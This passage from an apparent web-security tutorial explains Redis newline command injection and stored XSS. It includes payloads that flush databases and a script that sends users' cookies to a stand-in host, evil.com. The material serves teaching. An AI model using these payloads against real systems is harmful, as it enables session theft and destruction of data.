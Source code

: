 An attacker can use the `\n` character (line break) to execute a database query on top of their own. For example, if they submit `“userData”\nSET anotherKey “hi nosqli”`, it will cause the following commands to be executed:

```shell
SET key "userData"
SET anotherKey "hi nosqli"
```

Or worse, they can delete a base by subming:
`“userData”\nFLUSHDB` (or `FLUSHALL`, to delete all bases).

### XSS Injection

Also an extremely popular injection attack method, which unlike SQL Injection, targets the **user** rather than the server. The ultimate goal of this attack is to execute JS code in the user's browser.

There are 4 main varieties of this attack:

#### Stored XSS

Stored XSS occurs when an attacker submits malicious data to the server and the server then displays this data to other users.

For example, let's say we have a movie site where you can leave comments. The attacker sends a comment with the following content:

```
Very interesting film about extremely sad fairytale. <script>var img=new Image();img.src='http://evil.com/steal-cookie.php?cookie='+document.cookie;</script>
```

Once the comments have loaded, depending on the browser, the DOM tree will render the script and we'll get this final HTML:

```html
<body>
  <!--Some code--->
  <div id="comments">
    <div class="comment">
      <p>Very interesting film about extremely sad fairytale.</p>
      <script>
        var img = new Image();
        img.src = "http://evil.com/steal-cookie.php?cookie=" + document.cookie;
      </script>
    </div>
    <div class="comment">...</div>
  </div>
  <!--Some code--->
</body>
```

Depending on the browser, the `<script>` tag may be inside the `<p>` tag, but this will not prevent the script from executing.

#### Reflected XSS
